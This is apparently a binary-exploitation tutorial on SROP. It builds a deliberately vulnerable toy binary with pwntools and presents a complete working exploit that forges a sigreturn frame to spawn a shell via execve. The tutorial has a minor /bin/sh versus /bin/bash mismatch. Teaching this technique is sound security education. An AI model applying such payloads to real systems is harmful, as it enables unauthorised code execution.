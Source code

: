 # Using SROP

## Source

As with the [syscalls](../../syscalls/exploitation-with-syscalls.md#the-source), I made the binary using the pwntools ELF features:

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 500;
        syscall;
        ret;
        
        pop rax;
        ret;
    ''', vma=0x41000
)
elf.save('vuln')
```

It's quite simple - a `read` syscall, followed by a `pop rax; ret` gadget. You can't control RDI/RSI/RDX, which you need to pop a shell, so you'll have to use SROP.

Once again, I added `/bin/sh` to the binary:

```bash
echo -en "/bin/bash\x00" >> vuln
```

## Exploitation

First let's plonk down the available gadgets and their location, as well as the location of `/bin/sh`.

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015
```

From here, I suggest you try the payload yourself. The padding \(as you can see in the assembly\) is `8` bytes until RIP, then you'll need to trigger a `sigreturn`, followed by the values of the registers.



The triggering of a `sigreturn` is easy - sigreturn is syscall `0xf` \(`15`\), so we just pop that into RAX and call `syscall`:

```python
payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
```

Now the syscall looks at the location of RSP for the register values; we'll have to fake them. They have to be in a specific order, but luckily for us pwntools has a cool feature called a `SigreturnFrame()` that handles the order for us.

```text
frame = SigreturnFrame()
```

Now we just need to decide what the register values should be. We want to trigger an `execve()` syscall, so we'll set the registers to the values we need for that:

```python
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
```

However, in order to trigger this we **also have to control RIP** and point it back at the `syscall` gadget, so the execve actually executes:

```python
frame.rip = SYSCALL_RET
```

We then append it to the payload and send.

```python
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

![Nailed it!](../../../../.gitbook/assets/image%20%2842%29.png)

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```



